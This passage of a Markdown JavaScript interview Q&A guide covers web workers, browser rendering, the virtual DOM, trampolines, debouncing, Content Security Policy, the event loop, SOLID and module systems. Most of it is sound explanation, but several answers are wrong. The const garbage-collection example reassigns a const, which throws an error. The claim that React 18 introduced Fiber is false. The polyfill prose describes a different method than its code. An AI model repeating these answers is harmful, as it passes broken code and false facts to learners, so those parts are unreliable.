        if (typeof(w) == "undefined") {
          w = new Worker("counter.js");
        }
        w.onmessage = function(event) {
          document.getElementById("result").innerHTML = event.data;
        };
      } else {
        document.getElementById("result").innerHTML = "Sorry! No Web Worker support.";
      }
    }

    function stopWorker() {
      w.terminate();
      w = undefined;
    }
  </script>
</body>
</html>
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the restrictions of web workers on DOM?

WebWorkers do not have access to below javascript objects since they are defined in an external files

1. Window object
2. Document object
3. Parent object

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is rendering in JavaScript?

JavaScript-powered content needs to be rendered before it can output meaningful code and be displayed for the client.
These are the different steps involved in the JavaScript rendering process:


1. **JavaScript**: Typically JavaScript is used to handle work that will result in visual changes. 
2. **Style calculations**: This is the process of figuring out which CSS rules apply to which elements. They are applied and the final styles for each element are calculated. 
3. **Layout**: Once the browser knows which rules apply to an element it can begin to calculate how much space it takes up and where it is on screen. 
4. **Paint**: Painting is the process of filling in pixels. It involves drawing out text, colors, images, borders, and shadows, essentially every visual part of the elements. 
5. **Compositing**: Since the parts of the page were drawn into potentially multiple layers they need to be drawn to the screen in the correct order so that the page renders correctly.

The main responsibility of the rendering engine is to display the requested page on the browser screen.
Rendering engines can display HTML and XML documents and images. 

Similar to the JavaScript engines, different browsers use different rendering engines as well. These are some of the popular ones:

* **Gecko** — Firefox
* **WebKit** — Safari
* **Blink** — Chrome, Opera (from version 15 onwards)

**The process of rendering**

The rendering engine receives the contents of the requested document from the networking layer.



**Constructing the DOM tree**

The first step of the rendering engine is parsing the HTML document and converting the parsed elements to actual DOM nodes in a DOM tree.
```html
<html>
  <head>
    <meta charset="UTF-8">
    <link rel="stylesheet" type="text/css" href="theme.css">
  </head>
  <body>
    <p> Hello, <span> World! </span> </p>
    <div> 
      
    </div>
  </body>
</html>
```

The DOM tree for this HTML will look like this:



Basically, each element is represented as the parent node to all of the elements, which are directly contained inside of it. And this is applied recursively.

**Constructing the CSSOM tree**

CSSOM refers to the CSS Object Model. While the browser was constructing the DOM of the page, it encountered a link tag in the head section which was referencing the external theme.css CSS style sheet. Anticipating that it might need that resource to render the page, it immediately dispatched a request for it. Let\'s imagine that the theme.css file has the following contents:

```css
body { 
  font-size: 16px;
}

p { 
  font-weight: bold; 
}

span { 
  color: red; 
}

p span { 
  display: none; 
}

img { 
  float: right; 
}
```

As with the HTML, the engine needs to convert the CSS into something that the browser can work with — the CSSOM. Here is how the CSSOM tree will look like:



When computing the final set of styles for any object on the page, the browser starts with the most general rule applicable to that node (for example, if it is a child of a body element, then all body styles apply) and then recursively refines the computed styles by applying more specific rules.

**Painting the render tree** 

In this stage, the renderer tree is traversed and the renderer\'s paint() method is called to display the content on the screen.
Painting can be global or incremental (similar to layout):

* **Global** — the entire tree gets repainted.
* **Incremental** — only some of the renderers change in a way that does not affect the entire tree. The renderer invalidates its rectangle on the screen. This causes the OS to see it as a region that needs repainting and to generate a paint event. The OS does it in a smart way by merging several regions into one.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between Virtual DOM and Real DOM?

The **Virtual DOM** is an in-memory, lightweight JavaScript representation of the actual browser DOM. Frameworks like React use it to minimize expensive real DOM manipulations by computing the minimal set of changes needed.

**Real DOM:**

* Directly represents the browser\'s document structure.
* Updating it triggers layout reflow and repaint — expensive operations.
* Updates are synchronous and can cause performance bottlenecks on large trees.

**Virtual DOM:**

* A plain JavaScript object tree that mirrors the DOM.
* Updates are made to the virtual tree first (cheap in-memory operation).
* A **diffing algorithm** (reconciliation) compares old and new virtual trees.
* Only the changed nodes are patched into the real DOM (batch updates).

**How React uses Virtual DOM:**

```js
// 1. Developer describes UI as a virtual tree (JSX → React.createElement)
const vdom = React.createElement('div', { id: 'app' },
  React.createElement('h1', null, 'Hello'),
  React.createElement('p', null, 'World')
);

// 2. React diffs the new VDOM against the previous one (reconciliation)
// 3. Only changed nodes are applied to the real DOM in a single batch
```

**Comparison:**

| | Real DOM | Virtual DOM |
|--|----------|-------------|
| Location | Browser | JavaScript memory |
| Update cost | Expensive (reflow/repaint) | Cheap (plain JS object) |
| Update strategy | Direct mutation | Diff + patch |
| Used by | Native JS, jQuery | React, Vue (internally) |

**Note:** React 18 introduced the **Fiber architecture** which further optimises rendering by breaking work into chunks and prioritising updates. Vue 3 uses a compiled template approach that avoids full tree diffing.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between HTMLCollection and NodeList?

**HTMLCollection**

An HTMLCollection is a list of nodes. An individual node may be accessed by either ordinal index or the node\'s name or id attributes. Collections in the HTML DOM are assumed to be live meaning that they are automatically updated when the underlying document is changed.

**NodeList**

A NodeList object is a collection of nodes. The NodeList interface provides the abstraction of an ordered collection of nodes, without defining or constraining how this collection is implemented. NodeList objects in the DOM are live or static based on the interface used to retrieve them

**Difference**

An HTMLCollection is a list of webpage elements (div, p, ul, li, img objects, etc…) which form part of the DOM, and are of a specific node type usually referred to as an element node. A NodeList is also a list of nodes, but it can contain a list not only of element nodes, but other types of nodes as well. So it is a more generic list of nodes than HTMLCollection. HTMLCollection tells you that what it contains are webpage elements, specifically.

Both interfaces are collections of DOM nodes. They differ in the methods they provide and in the type of nodes they can contain. While a NodeList can contain any node type, an HTMLCollection is supposed to only contain Element nodes.
An HTMLCollection provides the same methods as a NodeList and additionally a method called namedItem.

Collections are always used when access has to be provided to multiple nodes, e.g. most selector methods (such as getElementsByTagName) return multiple nodes or getting a reference to all children (element.childNodes).

**Attribute Node**

Refers to the attributes of an element node.  

```js
// html: <div id="my-id" /> 
let element = document.getElementById("my-id"); 
let myIdAttribute = element.getAttributeNode("id"); 
console.log(myIdAttribute); // output: my-id
```

**Text Node**

Refers to the text of an element.

```js
// html: <div id="my-id"></div>
let element = document.getElementById("my-id");
let text = document.createTextNode("Some Text");
element.appendChild(text);
// updated html: <div id="my-id">Some Text</div>
```

**Comment Node**

```js
<!-- This is what a comment node looks like -->
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a trampoline function? What is it used for? 

The trampoline is just a technique to optimize **recursion** and prevent `stack-overflow` exceptions in languages that don\'t support tail call optimization like Javascript ES5 implementation. However, ES6 will probably have support for tail call optimization.

The problem with regular recursion is that every recursive call adds a stack frame to the call stack, which you can visualize as a **pyramid** of calls. Here is a visualization of calling a factorial function recursively:

```js
(factorial 3)
(* 3 (factorial 2))
(* 3 (* 2 (factorial 1)))
(* 3 (* 2 (* 1 (factorial 0)))) 
(* 3 (* 2 (* 1 1)))
(* 3 (* 2 1))
(* 3 2)
6
```

Here is a visualization of the stack where each vertical dash is a stack frame:

```
         ---|---
      ---|     |---
   ---|            |--- 
---                    ---
```
The problem is that the stack has limited size, and stacking up these stack frames can overflow the stack. Depending on the stack size, a calculation of a larger factorial would overflow the stack. That is why regular recursion in Javascript could be considered dangerous.

An optimal execution model would be something like a **trampoline** instead of a **pyramid**, where each recursive call is executed in place, and does not stack up on the call stack. That execution in languages supporting tail call optimization could look like:

```js
(fact 3)
(fact-tail 3 1)
(fact-tail 2 3)
(fact-tail 1 6)
(fact-tail 0 6)
6
```

You can visualize the stack like a bouncing trampoline:

```js
   ---|---   ---|---   ---|---
---      ---       ---       
```

This is clearly better since the stack has always only one frame, and from the visualization you can also see why it is called a trampoline. This prevents the stack from overflowing.

Since we don\'t have the luxury of `tail call optimization` in Javascript, we need to figure out a way to turn regular recursion into an optimized version that will execute in trampoline-fashion.

One obvious way is to **get rid of recursion**, and rewrite the code to be iterative.

When that is not possible we need a bit more complex code where instead of executing directly the recursive steps, we will utilize `higher order functions` to return a wrapper function instead of executing the recursive step directly, and let another function control the execution.

In your example, the **repeat** function wraps the regular recursive call with a function, and it returns that function instead of executing the recursive call:

```js
function repeat(operation, num) {
    return function() {
       if (num <= 0) return
       operation()
       return repeat(operation, --num)
    }
}
```

The returned function is the next step of recursive execution and the trampoline is a mechanism to execute these steps in a controlled and iterative fashion in the while loop:

```js
function trampoline(fn) {
    while(fn && typeof fn === 'function') {
        fn = fn()
    }
}
```

So the sole purpose of the trampoline function is to control the execution in an iterative way, and that ensures the stack to have only a single stack frame on the stack at any given time.

Using a trampoline is obviously less performant than simple recursion, since you are "blocking" the normal recursive flow, but it is much safer.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is throttling and debouncing in javascript?

Debouncing and throttling techniques are used to limit the number of times a function can execute. These are two widely-used techniques to improve the performance of code that gets executed repeatedly within a period of time.

**Throttling** enforces a maximum number of times a function can be called over time. As in "execute this function at most once every 100 milliseconds."

**Example:**

```js
$("body").on('scroll', _.throttle(function() {
  // Do expensive things
}, 100));
```

**Debouncing** enforces that a function not be called again until a certain amount of time has passed without it being called. As in "execute this function only if 100 milliseconds have passed without it being called."

**Example:**

```js
$(window).on('resize', _.debounce(function() {
  // Do expensive things
}, 100));
```

**Use Case**  

* Throttling a button click so we can\'t spam click
* Throttling an API call
* Throttling a mousemove event handler
* Debouncing a resize event handler
* Debouncing a scroll event handler
* Debouncing a save function in an autosave feature

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is same-origin policy?

The same-origin policy is a policy that prevents JavaScript from making requests across domain boundaries. An origin is defined as a combination of URI scheme, hostname, and port number. If you enable this policy then it prevents a malicious script on one page from obtaining access to sensitive data on another web page using Document Object Model(DOM).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Content Security Policy (CSP) in JavaScript?

**Content Security Policy (CSP)** is an HTTP response header that lets servers declare which dynamic resources (scripts, styles, fonts, images, etc.) are allowed to load. It is the primary defense against **XSS** and **data injection attacks**.

**How to enable CSP:**

```http
# Server response header
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; style-src 'self' 'unsafe-inline'; img-src *; report-uri /csp-violation-report
```

**Key directives:**

| Directive | Purpose |
|-----------|---------|
| `default-src` | Fallback for all resource types |
| `script-src` | Allowed JavaScript sources |
| `style-src` | Allowed CSS sources |
| `img-src` | Allowed image sources |
| `connect-src` | Allowed `fetch`, `XHR`, `WebSocket` endpoints |
| `frame-ancestors` | Controls iframe embedding (replaces `X-Frame-Options`) |
| `report-uri` / `report-to` | URL for violation reports |

**Common values:**

| Value | Meaning |
|-------|---------|
| `'self'` | Same origin only |
| `'none'` | Block all |
| `'unsafe-inline'` | Allow inline scripts/styles (weakens protection) |
| `'nonce-abc123'` | Allow specific inline script with matching nonce |
| `https://cdn.com` | Allow specific external domain |

**Nonce-based CSP (recommended for inline scripts):**

```html
<!-- Server generates a unique nonce per request -->
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-2726c7f26c'">

<!-- Only this inline script will execute -->
<script nonce="2726c7f26c">
  console.log('This is allowed');
</script>

<!-- This will be blocked -->
<script>console.log('This will be blocked');</script>
```

**Report-only mode (for testing):**

```http
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report
```

This reports violations without blocking resources — useful for testing CSP before enforcement.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is server-sent events?

Server-sent events (SSE) is a server push technology enabling a browser to receive automatic updates from a server via HTTP connection without resorting to polling. These are a one way communications channel - events flow from server to client only. This is been used in Facebook/Twitter updates, stock price updates, news feeds etc.

The `EventSource` object is used to receive server-sent event notifications. For example, we can receive messages from server as below,

```js
if(typeof(EventSource) !== "undefined") {
  var source = new EventSource("sse_generator.js");
  source.onmessage = function(event) {
    document.getElementById("output").innerHTML += event.data + "<br>";
  };
}
```

Below are the list of events available for server sent events

| Event | Description |
|------ |--------------|
| onopen  | It is used when a connection to the server is opened |
| onmessage | This event is used when a message is received  |
| onerror | It happens when an error occurs|

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you get the image width and height using JS?

You can programmatically get the image and check the dimensions(width and height) using Javascript.

```js
var img = new Image();
img.onload = function() {
  console.log(this.width + 'x' + this.height);
}
img.src = 'http://www.google.com/intl/en_ALL/images/logo.gif';
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a browser engine?

The browser engine is to take the HTML, CSS and other code of a web page - the text you can see in the page source or open in a text editor, setting out layouts, page content, and styling - and convert it into what you actually see on screen.

The browser engine, rendering engine, and JavaScript engine are all essentially working together to get raw web code into a viewable and usable-form inside your browser.

**Browser Engines:**

**1. Gecko:**

It\'s a Mozilla\'s browser engine. It is used in the Firefox web browser, the Thunderbird email client, and the SeaMonkey internet suite. Goanna also is a fork of Gecko used in the Pale Moon browser.

**2. WebKit:**

This engine created by Apple for its Safari browser, by forking the KHTML engine of the KDE project. Google also used WebKit for its Chrome browser, but eventually forked it to create the Blink engine.

**3. Blink:**

All Chromium-based browsers use Blink, as do applications built with CEF, Electron, or any other framework that embeds Chromium.

**4. Trident and EdgeHTML:**

Microsoft formerly developed its own proprietary browser engines - Trident and EdgeHTML, though now uses Blink for its Edge browser.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a Polyfill?

**Polyfill**

A polyfill is a piece of code (usually a JavaScript library) that provides modern functionality on older browsers that do not support it. It is a way to bring new features to old browsers by mimicking the behavior of modern JavaScript APIs.

For example, `Object.values()` was introduced in ES2017 and is not supported in some older browsers such as Internet Explorer and Safari 9. However, you can use a polyfill to add support for it in older browsers.

**Example**

```js
// polyfill for the Object.values()
if (!Object.values) {
  Object.values = function(obj) {
    var values = [];
    for (var key in obj) {
      if (obj.hasOwnProperty(key)) {
        values.push(obj[key]);
      }
    }
    return values;
  };
}

// Now you can use Object.values() even in older browsers that don\'t support it natively
const obj = { a: 1, b: 2, c: 3 };
const values = Object.values(obj);

console.log(values); // Output: [1, 2, 3]
```

This code checks if the `Array.prototype.includes()` method is available in the current environment, and if not, it provides an implementation of the method that emulates the behavior of the modern API. This allows you to use the `Array.prototype.includes()` method in older browsers, even though it is not natively supported.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>


## Q. What is optional chaining in JavaScript?

**Optional chaining**

Optional chaining is a feature in JavaScript that allows you to safely access nested object properties or functions without worrying about whether the intermediate properties exist or not. It uses the `?.` operator to check for nullish (`null` or `undefined`) values and short-circuits the expression if it encounters one.

Optional chaining was introduced in ECMAScript 2020 (ES11) and is supported in most modern browsers, but not in older ones. To use it in older browsers, you can use a transpiler like Babel, or write your code with alternative techniques like conditional statements or the `&&` operator.

**Example**

```js
const obj = {
  a: {
    b: {
      c: 123
    }
  }
};

// Without optional chaining
if (obj && obj.a && obj.a.b && obj.a.b.c) {
  console.log(obj.a.b.c); // output: 123
}

// With optional chaining
console.log(obj?.a?.b?.c); // output: 123

// Optional chaining with method
console.log(obj?.a?.b?.c.toString()); // output: "123"
```
<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How could you make sure a const value is garbage collected?

In JavaScript, garbage collection is automatically performed by the browser or the JavaScript engine. When a value is no longer being used or referenced, it becomes eligible for garbage collection.

In the case of a const value, the same rules apply as with any other value. As long as the const value is not referenced by any other variables or objects in the program, it will become eligible for garbage collection when the variable goes out of scope.


Here are some best practices to follow when working with const variables:

1. Only use `const` when you know that the value should not be reassigned.

2. If you ever want to change the contents of the variable for any reason in the future, then don\'t declare it as const.

3. Use `let` or `var` instead of `const` if you need to reassign the value.

4. To ensure that a const value is garbage collected, remove all references to it.

**Example**

```
const myObj = {name: 'John', age: 30};

// Use myObj...

// Remove all references to myObj
myObj = null;
```

In this example, setting `myObj` to `null` removes the only reference to the object, allowing it to be garbage collected.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How Garbage Collection works in JavaScript?

JavaScript has an automatic garbage collector that periodically frees up memory that is no longer being used by the program. The garbage collector works by identifying "garbage" values that are no longer accessible or needed by the program and freeing up the memory they occupy.

**Example**

```js
let a = { b: { c: { d: "Hello" } } };
let e = a.b.c;
a = null;
```
In this code, the object `{ b: { c: { d: "Hello" } } }` is created and assigned to the variable a. The variable e is then assigned a reference to the nested object `{ c: { d: "Hello" } }`. Finally, the variable a is set to null, which means that the original object `{ b: { c: { d: "Hello" } } }` is no longer accessible by the program.

At this point, the garbage collector will identify the object `{ b: { c: { d: "Hello" } } }` as "garbage" because it is no longer accessible by the program. The garbage collector will then free up the memory occupied by this object.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the JavaScript Event Loop?

The **Event Loop** is the mechanism that allows JavaScript — a single-threaded language — to perform non-blocking asynchronous operations. It continuously monitors the **call stack** and the **task queues** and moves tasks from the queues to the stack when the stack is empty.

**Components:**

* **Call Stack** — executes synchronous code one frame at a time (LIFO).
* **Web APIs** (or Node.js APIs) — handle async operations like `setTimeout`, `fetch`, DOM events.
* **Macrotask queue** (Task Queue) — holds callbacks from `setTimeout`, `setInterval`, I/O, UI events.
* **Microtask queue** — holds Promise callbacks (`.then`, `.catch`, `.finally`) and `queueMicrotask()`.

**Execution order:**

1. Execute all synchronous code on the call stack.
2. Drain the **entire** microtask queue (including any microtasks added during this step).
3. Pick **one** macrotask from the macrotask queue.
4. Repeat from step 2.

**Example:**

```js
console.log('1 - sync');

setTimeout(() => console.log('2 - setTimeout (macrotask)'), 0);

Promise.resolve()
  .then(() => console.log('3 - Promise.then (microtask)'))
  .then(() => console.log('4 - Promise.then (microtask)'));

console.log('5 - sync');

// Output:
// 1 - sync
// 5 - sync
// 3 - Promise.then (microtask)
// 4 - Promise.then (microtask)
// 2 - setTimeout (macrotask)
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between microtask queue and macrotask queue?

| Feature          | Microtask Queue                          | Macrotask Queue                        |
|------------------|------------------------------------------|----------------------------------------|
| Also called      | Job queue                                | Task queue / callback queue            |
| Sources          | `Promise.then/catch/finally`, `queueMicrotask()`, `MutationObserver` | `setTimeout`, `setInterval`, `setImmediate` (Node), I/O, UI events |
| Priority         | **Higher** — runs before next macrotask  | Lower — runs one at a time             |
| When processed   | After every task, until queue is empty   | One per event loop iteration           |

**Example showing microtasks before macrotasks:**

```js
setTimeout(() => console.log('macrotask 1'), 0);
setTimeout(() => console.log('macrotask 2'), 0);

Promise.resolve()
  .then(() => {
    console.log('microtask 1');
    return Promise.resolve();
  })
  .then(() => console.log('microtask 2'));

queueMicrotask(() => console.log('microtask 3'));

// Output:
// microtask 1
// microtask 3
// microtask 2
// macrotask 1
// macrotask 2
```

*Note: All microtasks are fully drained before the event loop picks the next macrotask.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the SOLID principles in JavaScript?

**SOLID** is an acronym for five object-oriented design principles that make software more maintainable and extensible.

**S — Single Responsibility Principle (SRP)**

A class/function should have only one reason to change.

```js
// ❌ Violates SRP — handles both business logic and persistence
class UserService {
  createUser(data) { /* validate + save to DB */ }
  sendWelcomeEmail(user) { /* send email */ }
}

// ✅ Each class has one responsibility
class UserRepository { save(user) { /* DB logic */ } }
class EmailService    { sendWelcome(user) { /* email logic */ } }
class UserService {
  constructor(repo, email) { this.repo = repo; this.email = email; }
  createUser(data) {
    const user = this.repo.save(data);
    this.email.sendWelcome(user);
    return user;
  }
}
```

**O — Open/Closed Principle (OCP)**

Open for extension, closed for modification.

```js
// ✅ Add new discount types without modifying existing code
class DiscountStrategy { apply(price) { return price; } }
class StudentDiscount  extends DiscountStrategy { apply(p) { return p * 0.8; } }
class SeniorDiscount   extends DiscountStrategy { apply(p) { return p * 0.7; } }

function checkout(price, strategy) { return strategy.apply(price); }
```

**L — Liskov Substitution Principle (LSP)**

Subtypes must be substitutable for their base type.

**I — Interface Segregation Principle (ISP)**

No code should be forced to depend on methods it does not use. In JavaScript this means keeping interfaces (objects/mixins) small and focused.

**D — Dependency Inversion Principle (DIP)**

High-level modules should not depend on low-level modules. Both should depend on abstractions.

```js
// ✅ OrderService depends on an abstraction (any object with .save())
class OrderService {
  constructor(repository) { this.repository = repository; }
  placeOrder(order) { return this.repository.save(order); }
}

const sqlRepo   = { save: order => console.log('SQL save', order) };
const noSqlRepo = { save: order => console.log('NoSQL save', order) };

new OrderService(sqlRepo).placeOrder({ id: 1 });
new OrderService(noSqlRepo).placeOrder({ id: 2 });
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the DRY principle in JavaScript?

**DRY** stands for **Don\'t Repeat Yourself**. It states that every piece of knowledge must have a single, unambiguous, authoritative representation within a system. Duplicated logic makes code harder to maintain because changes must be applied in multiple places.

**Violation:**

```js
function getFullNameAdmin(user) {
  return user.firstName + ' ' + user.lastName + ' (admin)';
}

function getFullNameGuest(user) {
  return user.firstName + ' ' + user.lastName + ' (guest)';
}
```

**Applying DRY:**

```js
function getFullName(user) {
  return `${user.firstName} ${user.lastName}`;
}

function getDisplayName(user) {
  return `${getFullName(user)} (${user.role})`;
}
```

**DRY vs. WET (Write Everything Twice):**

DRY does not mean *never write similar-looking code*. Premature abstractions can introduce unnecessary coupling. A practical rule: abstract duplication only when the same logic appears **three or more times** and the abstraction does not make the code harder to understand.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the 12-Factor App methodology?

The **12-Factor App** is a methodology for building modern, scalable, maintainable software-as-a-service applications. It was created by Heroku engineers and applies equally to Node.js/JavaScript back-end services.

| Factor | Description |
|--------|-------------|
| **1. Codebase** | One codebase tracked in VCS, many deploys |
| **2. Dependencies** | Explicitly declare and isolate dependencies (`package.json`, `npm install`) |
| **3. Config** | Store config (API keys, ports, DB URLs) in environment variables, never in code |
| **4. Backing services** | Treat databases, queues, caches as attached resources |
| **5. Build, release, run** | Strictly separate build (`npm run build`), release, and run stages |
| **6. Processes** | Execute the app as one or more stateless processes |
| **7. Port binding** | Export services via port binding (e.g. `app.listen(process.env.PORT)`) |
| **8. Concurrency** | Scale out via the process model |
| **9. Disposability** | Fast startup and graceful shutdown |
| **10. Dev/prod parity** | Keep development, staging, and production as similar as possible |
| **11. Logs** | Treat logs as event streams; write to stdout |
| **12. Admin processes** | Run admin/management tasks as one-off processes |

**JavaScript example — Factor 3 (Config):**

```js
// ✅ Config from environment variables
const config = {
  port:       process.env.PORT       || 3000,
  dbUrl:      process.env.DATABASE_URL,
  jwtSecret:  process.env.JWT_SECRET
};
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are CommonJS, AMD, and UMD module systems?

Before native ES Modules (ESM) were standardised, several module formats existed to solve the lack of a built-in module system in JavaScript.

**1. CommonJS (CJS)**

Used by Node.js. Synchronous `require()` and `module.exports`.

```js
// math.js (exporting)
function add(a, b) { return a + b; }
module.exports = { add };

// app.js (importing)
const { add } = require('./math');
console.log(add(2, 3)); // 5
```

**2. AMD (Asynchronous Module Definition)**

Designed for browsers; uses `define()` for async loading. Implemented by RequireJS.

```js
// Define a module
define(['dependency'], function (dep) {
  return {
    greet: function () { return 'Hello from AMD'; }
  };
});

// Require a module
require(['myModule'], function (myModule) {
  console.log(myModule.greet());
});
```

**3. UMD (Universal Module Definition)**

A pattern that works in all environments — AMD, CommonJS, and browser globals.

```js
(function (root, factory) {
  if (typeof define === 'function' && define.amd) {
    define(['dep'], factory);           // AMD
  } else if (typeof module === 'object' && module.exports) {
    module.exports = factory(require('dep')); // CJS
  } else {
    root.myLib = factory(root.dep);     // Global variable
  }
}(this, function (dep) {
  return { /* library code */ };
}));
```

**4. ES Modules (ESM) — modern standard**

```js
// Named export
export function add(a, b) { return a + b; }

// Default export
export default class Calculator { /* ... */ }

// Import
import Calculator, { add } from './math.js';
```

| | CJS | AMD | UMD | ESM |
|-|-----|-----|-----|-----|
| Environment | Node.js | Browser | Both | Both (modern) |
| Loading | Sync | Async | Both | Static/Dynamic |
| Tree-shakeable | ❌ | ❌ | ❌ | ✅ |
| Native browser support | ❌ | ❌ | ❌ | ✅ |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Component-based Architecture in JavaScript?

**Component-based architecture** is a design approach where the UI (and sometimes back-end logic) is broken into independent, reusable, self-contained **components**. Each component manages its own structure (HTML), style (CSS), and behaviour (JavaScript).

**Key characteristics:**

| Principle | Description |
|-----------|-------------|
| **Encapsulation** | A component owns its template, styles, and logic |
| **Reusability** | Components can be used in multiple places without modification |
| **Composability** | Complex UIs are built by composing simpler components |
| **Single responsibility** | Each component has one clear purpose |
| **Unidirectional data flow** | Data flows down via props; events bubble up |

**Example — React-style component:**

```jsx
// Atomic component
function Button({ label, onClick, variant = 'primary' }) {
  return (
    <button className={`btn btn-${variant}`} onClick={onClick}>
      {label}
    </button>
  );
}

// Composed component
function LoginForm({ onSubmit }) {
  return (
    <form onSubmit={onSubmit}>
      <input type="email" placeholder="Email" />
      <input type="password" placeholder="Password" />
      <Button label="Sign In" onClick={onSubmit} />
    </form>
  );
}
```

**Benefits over monolithic architecture:**

* Easier testing — components can be tested in isolation
* Parallel development — teams can work on different components simultaneously
* Incremental updates — a single component can be changed without affecting the whole app

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>
